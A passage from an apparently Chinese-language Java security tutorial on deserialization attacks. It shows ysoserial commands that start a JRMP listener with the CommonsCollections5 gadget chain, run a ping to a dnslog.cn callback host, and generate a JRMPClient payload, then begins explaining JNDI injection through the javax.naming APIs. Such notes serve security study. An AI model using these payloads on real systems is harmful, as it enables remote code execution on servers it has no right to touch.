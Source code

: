JRMP同理, ysoserial准备了一系列的服务建立

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections5 'ping d85oqm.dnslog.cn'
# listen 一个 RMI server 走 JRMP 协议在 8888 port 上

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient 'localhost:8888'
# 使用 JRMPClient 去连接刚刚 listen 的 server(生成二进制文件)
```

整体流程: 反序列化JRMPClient > 访问到RMI Server接收RMI序列化数据 > 命令执行

## JNDI 注入

在Java JDK里面提供了5个包，提供给JNDI的功能实现 

javax.naming：主要用于命名操作，它包含了命名服务的类和接口，该包定义了Context接口和InitialContext类；

javax.naming.directory：主要用于目录操作，它定义了DirContext接口和InitialDir- Context类；

javax.naming.event：在命名目录服务器中请求事件通知；

javax.naming.ldap：提供LDAP支持；

javax.naming.spi：允许动态插入不同实现，为不同命名目录服务供应商的开发人员提供开发和实现的途径，以便应用程序通过JNDI可以访问相关服务。

### InitialContext类

构造方法

```java
InitialContext() 
构建一个初始上下文。  
InitialContext(boolean lazy) 
构造一个初始上下文，并选择不初始化它。  
InitialContext(Hashtable<?,?> environment) 
使用提供的环境构建初始上下文。 
```

sample

```java
InitialContext initialContext = new InitialContext();
```

在这JDK里面给的解释是构建初始上下文，其实通俗点来讲就是获取初始目录环境。

常用方法

```
bind(Name name, Object obj) 
	将名称绑定到对象。 
list(String name) 
	枚举在命名上下文中绑定的名称以及绑定到它们的对象的类名。
lookup(String name) 
	检索命名对象。 
rebind(String name, Object obj) 
	将名称绑定到对象，覆盖任何现有绑定。 
unbind(String name) 
	取消绑定命名对象。
```
